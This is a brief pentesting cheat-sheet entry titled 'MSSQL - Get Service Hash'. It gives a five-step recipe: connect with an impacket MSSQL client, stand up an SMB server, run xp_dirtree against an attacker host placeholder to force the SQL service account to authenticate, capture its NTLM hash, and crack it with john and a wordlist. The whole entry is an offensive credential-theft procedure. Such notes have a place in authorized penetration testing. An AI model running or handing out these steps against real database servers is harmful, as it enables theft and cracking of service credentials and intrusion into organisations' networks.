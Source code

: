 # MSSQL - Get Service Hash

```
1 - Connect with the impacket mssql client
2 - Start SMB server
3 - execute: exec xp_dirtree '\\${__LHOST}\F\file'
4 - copy the hash into a file
5 - execute: john hash -w=${__WORDS}
```
